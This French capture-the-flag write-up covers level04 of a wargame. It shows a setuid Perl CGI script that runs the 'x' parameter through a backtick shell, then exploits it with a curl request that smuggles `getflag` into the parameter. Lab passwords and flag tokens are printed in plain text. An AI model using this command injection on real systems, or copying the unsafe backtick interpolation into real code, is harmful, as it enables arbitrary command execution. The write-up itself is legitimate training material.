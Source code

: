 # Level04

> login:password -> *`level04:qi0maab88jeaj46qoumi7maus`*
```
:~$ su level04
Password:qi0maab88jeaj46qoumi7maus
```
---

```
:~$ pwd
/home/user/level04
```

```
:~$ ls -la
...
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
...
```

Le Home posséde un script perl level04.pl

```
:~$ cat level04.pl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

Le script affiche la valeur du parametre "x" sur le port `:4747`.
On peut donc injecter un subshell pour que son echo affiche le resultat

```
:~$ curl localhost:4747?x=toto
toto

:~$ curl 'localhost:4747?x=`getflag`'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

Le flag nous permet de se connecter au level05
`level05:ne2searoevaevoem4ov4ar8ap`

> Tools:
> - https://unix.stackexchange.com/questions/138463/do-parentheses-really-put-the-command-in-a-subshell